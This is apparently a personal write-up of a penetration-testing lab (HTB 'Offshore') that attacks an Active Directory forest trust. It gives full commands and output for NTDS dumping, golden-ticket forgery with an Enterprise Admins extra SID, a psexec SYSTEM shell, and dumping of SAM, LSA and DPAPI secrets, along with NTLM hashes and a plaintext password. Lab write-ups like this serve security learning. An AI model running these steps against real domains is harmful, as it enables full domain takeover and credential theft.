





As usual we can start by checking all the alive ports over the TCP protocoll:

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-07-04 13:54:54Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ADMIN.OFFSHORE.COM, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: ADMIN)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ADMIN.OFFSHORE.COM, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-04T13:56:27+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC03.ADMIN.OFFSHORE.COM
| Issuer: commonName=DC03.ADMIN.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-03T03:18:20
| Not valid after:  2025-01-02T03:18:20
| MD5:   bf40:8d28:cf6a:d111:526d:8de5:af93:6786
| SHA-1: c993:ff30:3317:19f7:c659:e516:21e6:d6a2:a4d1:be5f
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQNlz54wl95odE53PeFRedhzANBgkqhkiG9w0BAQsFADAi
| MSAwHgYDVQQDExdEQzAzLkFETUlOLk9GRlNIT1JFLkNPTTAeFw0yNDA3MDMwMzE4
| MjBaFw0yNTAxMDIwMzE4MjBaMCIxIDAeBgNVBAMTF0RDMDMuQURNSU4uT0ZGU0hP
| UkUuQ09NMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAhlsKGA+ZMdnJ
| euucfgr7N/pm+IrWrrKVoJE5PPCAqwgQoIePWgSQqgZAXeE+rcYpgK77gfDj5LOZ
| qqCwpyG3aLVe/Zjut6JWXVKstUs3fcSUx8tEPLiSPXwLbCsXjSh+ygn6p3FjCFoW
| I7S/N8mOnnseK5m7JvY81ww91erTG3SVgNhMNPmHj6s7jYOWdgBA8lGHBTwnfX3h
| uKSk5GAzxbBLkesGihb0vpN1RXwHiuikfhVA8Eviiz7A0tApgGPBZ+zCKR6A+5QR
| JWyWUv9+tyet/7ENL/bxArA2DorvLenPshTxWTCiE/oRywOtkFUWMPvrKTIuYmYb
| Y2oc2vD7KwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQELBQADggEBADN8bcZF0XjH1ArbRYiRLolaRzrm0hcGcvh8
| P8aLok46ANDzSCud/IRQ9RQEQdWfhMWnOldmaGEzVBKAB/BDjOFH+LTGM3PWUUW9
| Sw+mL6UPtLJPyu8yptFJhCnZcXDUSwArNAG8ojYSjcgzy39nEHRbaA2/acIiyble
| VsiOUhhvWfRLzmRLtRXxhB8IudTFTJpOd8rSyaA+NOj7lvJyY/qgCF4gRu4Djfi/
| jGCsEOM0od+c0qkryYFrnJ5I9PvVJHBnGErAnGNqxAqNGCswY9bUoS0nAfObfgI5
| srcWw1xb2gC5dHrX+Gxq2mUK5TqsOvKXzEKwxsUsCI2R36JO/2Y=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: ADMIN
|   NetBIOS_Domain_Name: ADMIN
|   NetBIOS_Computer_Name: DC03
|   DNS_Domain_Name: ADMIN.OFFSHORE.COM
|   DNS_Computer_Name: DC03.ADMIN.OFFSHORE.COM
|   DNS_Tree_Name: ADMIN.OFFSHORE.COM
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-04T13:55:47+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=53%CT=%CU=%PV=Y%G=N%TM=6686AA0C%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 33.752 days (since Fri May 31 21:54:18 2024)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: DC03; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: DC03
|   NetBIOS computer name: DC03\x00
|   Domain name: ADMIN.OFFSHORE.COM
|   Forest name: ADMIN.OFFSHORE.COM
|   FQDN: DC03.ADMIN.OFFSHORE.COM
|_  System time: 2024-07-04T09:55:49-04:00
| smb2-time: 
|   date: 2024-07-04T13:55:51
|_  start_date: 2024-07-04T03:18:26
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 14321/tcp): CLEAN (Timeout)
|   Check 2 (port 20940/tcp): CLEAN (Timeout)
|   Check 3 (port 43319/udp): CLEAN (Timeout)
|   Check 4 (port 50033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 48m02s, deviation: 1h47m20s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Same goes for UDP:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.3.5  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 15:50 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 41.00% done; ETC: 15:50 (0:00:10 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 54.00% done; ETC: 15:50 (0:00:09 remaining)
Nmap scan report for 172.16.3.5
Host is up (0.044s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```

&nbsp;

# AD analysys

If I run a Domain trust I see 2 things:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec ldap 172.16.3.5 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -d "dev.admin.offshore.com" -M enum_trusts
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.3.5      389    DC03             [+] dev.admin.offshore.com\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
ENUM_TRUSTS 172.16.3.5      389    DC03             [+] Found the following trust relationships:
ENUM_TRUSTS 172.16.3.5      389    DC03             dev.ADMIN.OFFSHORE.COM -> Bidirectional -> Within Forest
ENUM_TRUSTS 172.16.3.5      389    DC03             CLIENT.OFFSHORE.COM -> Bidirectional -> Forest Transitive, Treat as External
```

This domain is attached to a new domain named `client.offshore.com` and withing forest over the old `DEV.ADMIN.OFFSHORE.COM` this might mean that we can perform the SID History atttack?

I tried to check for shares but couldn't find anything.

If I try to check what users are on the domain I see very little...

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.5 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -d "dev.admin.offshore.com" --users 
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.3.5      445    DC03             [+] dev.admin.offshore.com\Administrator:c61f43b6a4db2676714713836b7d2ea6 
SMB         172.16.3.5      445    DC03             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         172.16.3.5      445    DC03             Administrator                 2020-06-04 20:30:37 0       Built-in account for administering the computer/domain 
SMB         172.16.3.5      445    DC03             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         172.16.3.5      445    DC03             krbtgt                        2018-04-18 00:47:16 0       Key Distribution Center Service Account 
SMB         172.16.3.5      445    DC03             DefaultAccount                <never>             0       A user account managed by the system. 
SMB         172.16.3.5      445    DC03             bankvault                     2018-06-26 03:42:24 0
```

Knowing that there is so little it really makes me wonder if the SID attack is our only way in?

But checking the PC in domain I see another pc named MS01?

```
┌──(LDAP)-[DC03.ADMIN.OFFSHORE.COM]-[DEV\Administrator]
└─$ Get-NetComputer -Properties "servicePrincipalName"
servicePrincipalName     : WSMAN/WS04
                           WSMAN/WS04.ADMIN.OFFSHORE.COM
                           TERMSRV/WS04
                           TERMSRV/WS04.ADMIN.OFFSHORE.COM
                           RestrictedKrbHost/WS04
                           HOST/WS04
                           RestrictedKrbHost/WS04.ADMIN.OFFSHORE.COM
                           HOST/WS04.ADMIN.OFFSHORE.COM

servicePrincipalName     : TERMSRV/MS01
                           TERMSRV/MS01.ADMIN.OFFSHORE.COM
                           WSMAN/MS01
                           WSMAN/MS01.ADMIN.OFFSHORE.COM
                           RestrictedKrbHost/MS01
                           HOST/MS01
                           RestrictedKrbHost/MS01.ADMIN.OFFSHORE.COM
                           HOST/MS01.ADMIN.OFFSHORE.COM

servicePrincipalName     : TERMSRV/DC03
                           TERMSRV/DC03.ADMIN.OFFSHORE.COM
                           Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC03.ADMIN.OFFSHORE.COM
                           ldap/DC03.ADMIN.OFFSHORE.COM/ForestDnsZones.ADMIN.OFFSHORE.COM
                           ldap/DC03.ADMIN.OFFSHORE.COM/DomainDnsZones.ADMIN.OFFSHORE.COM
                           DNS/DC03.ADMIN.OFFSHORE.COM
                           GC/DC03.ADMIN.OFFSHORE.COM/ADMIN.OFFSHORE.COM
                           RestrictedKrbHost/DC03.ADMIN.OFFSHORE.COM
                           RestrictedKrbHost/DC03
                           RPC/cf749ea1-2112-4ddf-991a-c2b107d7b1cc._msdcs.ADMIN.OFFSHORE.COM
                           HOST/DC03/ADMIN
                           HOST/DC03.ADMIN.OFFSHORE.COM/ADMIN
                           HOST/DC03
                           HOST/DC03.ADMIN.OFFSHORE.COM
                           HOST/DC03.ADMIN.OFFSHORE.COM/ADMIN.OFFSHORE.COM
                           E3514235-4B06-11D1-AB04-00C04FC2DCD2/cf749ea1-2112-4ddf-991a-c2b107d7b1cc/ADMIN.OFFSHORE.COM
                           ldap/DC03/ADMIN
                           ldap/cf749ea1-2112-4ddf-991a-c2b107d7b1cc._msdcs.ADMIN.OFFSHORE.COM
                           ldap/DC03.ADMIN.OFFSHORE.COM/ADMIN
                           ldap/DC03
                           ldap/DC03.ADMIN.OFFSHORE.COM
                           ldap/DC03.ADMIN.OFFSHORE.COM/ADMIN.OFFSHORE.COM
```

And it seems saved with IP `.30`? If this is not something retired from the ENV then it might be that is accessible only from the same NIC?



&nbsp;

# Attacking the Trust

I really want to test if I can make a child -> parent domain takeover since I don't see clear paths here.

We need first the NTLM hash of the KRBTGT user on the child domain(DEV): **9404def404bc198fd9830a3483869e78**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.2.6 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -M ntdsutil
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.2.6      445    DC02             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
NTDSUTIL    172.16.2.6      445    DC02             [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\172010421
NTDSUTIL    172.16.2.6      445    DC02             Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.2.6      445    DC02             [+] NTDS.dit dumped to C:\Windows\Temp\172010421
NTDSUTIL    172.16.2.6      445    DC02             [*] Copying NTDS dump to /tmp/tmpmpmudfsp
NTDSUTIL    172.16.2.6      445    DC02             [*] NTDS dump copied to /tmp/tmpmpmudfsp
NTDSUTIL    172.16.2.6      445    DC02             [+] Deleted C:\Windows\Temp\172010421 remote dump directory
NTDSUTIL    172.16.2.6      445    DC02             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.2.6      445    DC02             DC03$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.2.6      445    DC02             Administrator:500:aad3b435b51404eeaad3b435b51404ee:c61f43b6a4db2676714713836b7d2ea6:::
NTDSUTIL    172.16.2.6      445    DC02             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.2.6      445    DC02             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.2.6      445    DC02             DC02$:1000:aad3b435b51404eeaad3b435b51404ee:1a1d4bd303de23a5ca0e13cda66be2e3:::
NTDSUTIL    172.16.2.6      445    DC02             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9404def404bc198fd9830a3483869e78:::
NTDSUTIL    172.16.2.6      445    DC02             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Next we need the SID of the child domain(DEV):  **S-1-5-21-1416445593-394318334-2645530166**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# impacket-lookupsid dev.ADMIN.OFFSHORE.COM/yovecio@dc02.dev.ADMIN.OFFSHORE.COM | grep "Domain SID"

Password:
[*] Domain SID is: S-1-5-21-1416445593-394318334-2645530166
```

Next we need the SID of the Enterprise Admins at the parent domain(ADMIN): **S-1-5-21-1216317506-3509444512-4230741538+ 519**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# impacket-lookupsid dev.ADMIN.OFFSHORE.COM/yovecio@172.16.3.5 | grep -B12 "Enterprise Admins"

Password:
498: ADMIN\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: ADMIN\Administrator (SidTypeUser)
501: ADMIN\Guest (SidTypeUser)
502: ADMIN\krbtgt (SidTypeUser)
503: ADMIN\DefaultAccount (SidTypeUser)
512: ADMIN\Domain Admins (SidTypeGroup)
513: ADMIN\Domain Users (SidTypeGroup)
514: ADMIN\Domain Guests (SidTypeGroup)
515: ADMIN\Domain Computers (SidTypeGroup)
516: ADMIN\Domain Controllers (SidTypeGroup)
517: ADMIN\Cert Publishers (SidTypeAlias)
518: ADMIN\Schema Admins (SidTypeGroup)
519: ADMIN\Enterprise Admins (SidTypeGroup)
```

And adding to the domain sid+Ent Admin sid: **S-1-5-21-1216317506-3509444512-4230741538-519**

And now we can ask a new "golden ticket" for a \*fake\* user on the parent domain with all the info from before:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# impacket-ticketer -nthash 9404def404bc198fd9830a3483869e78 -domain DEV.ADMIN.OFFSHORE.COM -domain-sid S-1-5-21-1416445593-394318334-2645530166 -extra-sid S-1-5-21-1216317506-3509444512-4230741538-519 Administrator
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for DEV.ADMIN.OFFSHORE.COM/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```



And now moment of thruth:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# impacket-psexec DEV.ADMIN.OFFSHORE.COM/Administrator@DC03.ADMIN.OFFSHORE.COM -k -no-pass -target-ip 172.16.3.5
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Requesting shares on 172.16.3.5.....
[*] Found writable share ADMIN$
[*] Uploading file goobMiKp.exe
[*] Opening SVCManager on 172.16.3.5.....
[*] Creating service qQLr on 172.16.3.5.....
[*] Starting service qQLr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami     
nt authority\system

C:\Windows\system32> hostname
DC03

C:\Windows\system32>
```

&nbsp;

# Post Exploitation

Now as usual to gain a sort of persistence I will add a new user to the domain admins.



And as usual starting by the SAM which will be pointless for a Domain joined machine:

&nbsp;

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.5 -u yovecio -p 'Coglione1!' --sam
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.3.5      445    DC03             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.5      445    DC03             [*] Dumping SAM hashes
SMB         172.16.3.5      445    DC03             Administrator:500:aad3b435b51404eeaad3b435b51404ee:67e1046be5e785dd9773fb6bbeaad49c:::
SMB         172.16.3.5      445    DC03             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.3.5      445    DC03             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.3.5      445    DC03             [+] Added 3 SAM hashes to the database
```

And next LSASS but even here not much:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.5 -u yovecio -p 'Coglione1!' --lsa
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.3.5      445    DC03             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.5      445    DC03             [+] Dumping LSA secrets
SMB         172.16.3.5      445    DC03             ADMIN\DC03$:aes256-cts-hmac-sha1-96:ceaff47ab9c416102a58155ac86df466c8d60d2a3dca0421b427fea7db3adeb6
SMB         172.16.3.5      445    DC03             ADMIN\DC03$:aes128-cts-hmac-sha1-96:8c8643b572618be77e7677c1ff104883
SMB         172.16.3.5      445    DC03             ADMIN\DC03$:des-cbc-md5:4cfdf4fedab96264
SMB         172.16.3.5      445    DC03             ADMIN\DC03$:plain_password_hex:8c8047fe85297c86ff9d2770020d7bba13cd658fa1e1ddb9751997f88828916193b6b096276b2163f6a9102daf9b38dac15416d1c65476962926b3d04780be1e13eabfb9100d4aeb474e0c7fbfb389a2cabc83fe1e46af878812578ba41d600f5cfbeac70eaecebb14b9e3734fc656f33a64cf45ebce1d3f82e1113b2e2d972c8960e85f74a0feae3864d637b1b71e1b435af6f8681a5010d189c04e9ac544377e713581b816ee13c2cf35b4a1c0ec67b4e23d277bf840d7da926d8a7f696a04bb2191e8f32372434f4b46922849421aa1f393f269c794225933e702eff267664805b7d62544cac74bf373c817d370f4
SMB         172.16.3.5      445    DC03             ADMIN\DC03$:aad3b435b51404eeaad3b435b51404ee:a309490aabcffeea561fb1d8b36607d0:::
SMB         172.16.3.5      445    DC03             dpapi_machinekey:0x18a601ae1b8a529533205e9f4fa047bdf25515aa
dpapi_userkey:0xb16880e2a0da1b1b94c43a0f6175f35b6ff266e8
SMB         172.16.3.5      445    DC03             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         172.16.3.5      445    DC03             [+] Dumped 7 LSA secrets to /root/.nxc/logs/DC03_172.16.3.5_2024-07-04_170302.secrets and /root/.nxc/logs/DC03_172.16.3.5_2024-07-04_170302.cached
```

And lastly the DPAPI which were mostly void as well:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.5 -u yovecio -p 'Coglione1!' --dpapi
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.3.5      445    DC03             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.5      445    DC03             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.3.5      445    DC03             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.3.5      445    DC03             [+] Got 31 decrypted masterkeys. Looting secrets...
SMB         172.16.3.5      445    DC03             [-] No secrets found
```

But moving on grabbing another flag:

```
Evil-WinRM* PS C:\Users\Administrator\desktop> ls


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/17/2018   5:52 PM             32 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
OFFSHORE{w@tch_th0s3_3xtra_$ids}
*Evil-WinRM* PS C:\Users\Administrator\desktop>
```

Next I will dump the NTDS file so I can have some extra hashes:



and going back to that MS01 it seems still dead:



lastly we can see traces of the other domain at `client.offshore.com` pointing at **172.16.4.0/24**.


I feel we can move back to WS04.

&nbsp;

&nbsp;

&nbsp;